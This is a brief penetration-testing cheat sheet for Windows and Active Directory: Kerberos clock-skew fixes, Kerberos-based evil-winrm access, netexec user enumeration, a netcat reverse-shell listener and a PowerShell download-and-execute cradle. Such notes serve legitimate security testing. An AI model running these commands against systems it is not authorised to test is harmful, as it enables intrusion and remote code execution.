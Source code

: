 ## KRB_AP_ERR_SKEW(Clock skew too great)

```bash
faketime "$(rdate -n $DC_IP -p | awk '{print $2, $3, $4}' | date -f - "+%Y-%m-%d %H:%M:%S")" zsh
```

## evil-winrm without NTLM
```bash
# 1 - Get TGT
getTGT.py -dc-ip "DC01.domain.tld" "domain.tld"/"$USER":"$PASSWORD" -k
# 1_bis
nxc smb ip -u "$USER" -p "$PASSWORD" --generate-tgt NAME.ccache

# 2 - Edit /etc/krb5.conf, example :
[libdefaults]
        default_realm = DOMAIN.TLD
<SNIP>
[realms]
DOMAIN.TLD = {
    kdc = DC01.domain.tld
    kdc = DC01.domain.tld:88
}
# 2_bis 
nxc smb ip -u "$USER" -p "$PASSWORD" --generate-krb5-file  /etc/krb5.conf
export KRB5_CONFIG=/etc/krb5.conf

# 3 - Get WinRM shell
KRB5CCNAME=TICKET.ccache evil-winrm -i DC01.domain.tld -r domain.tld
```

## revshell using rlwrap
```bash
rlwrap -cAr nc -lvnp 1337
```

## Mount share inside exegol
```bash
--privileged
```

## Load script from web server
```powershell
iex (iwr -Uri "https://$IP/script.ps1" -UseBasicParsing)
```

## Extract only users, with netexec
```powershell
nxc smb "$IP" -u "$USER" -p "$PASSWORD" --users | awk '$1 == "SMB" && $5 !~ /^(\[\*\]|\[\+\]|-Username-)$/ { print $5 }'
```